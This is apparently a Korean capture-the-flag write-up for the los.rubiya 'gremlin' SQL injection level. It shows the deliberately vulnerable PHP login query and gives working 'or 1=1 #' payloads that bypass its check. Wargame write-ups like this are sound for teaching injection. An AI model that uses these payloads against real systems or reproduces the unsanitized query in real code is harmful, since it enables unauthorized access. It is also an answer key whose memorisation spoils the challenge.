 # Gremlin Problem
<br>

![Gremlin page](./../image/gremlin_web_page.png)

### hint

\$_GET['id'] 와 \$_GET['pw']를 문자열이 아닌 쿼리로 인식하게 참값으로 만들면 된다.



### los rubiya problem Script

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

### 핵심

```php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";

if($result['id']) solve("gremlin");
```

Grelin는 간단하게 $query 에 들어가는 $_GET를 주입시켜 참 값이 나오게 쿼리를 만들면 된다.



<details>
<summary>Payload</summary>
<div markdown="1">

```sql
?id='%20or%201=1%20%23'
> select id from prob_gremlin where id='' or 1=1 #'' and pw='';

?id=a&pw=' or 1=1 %23'
> select id from prob_gremlin where id='a' and pw='' or 1=1 #'';
```

이 외에도 답은 무수히 많지만 참값으로 만족만 시키면 된다.

</div>
</details>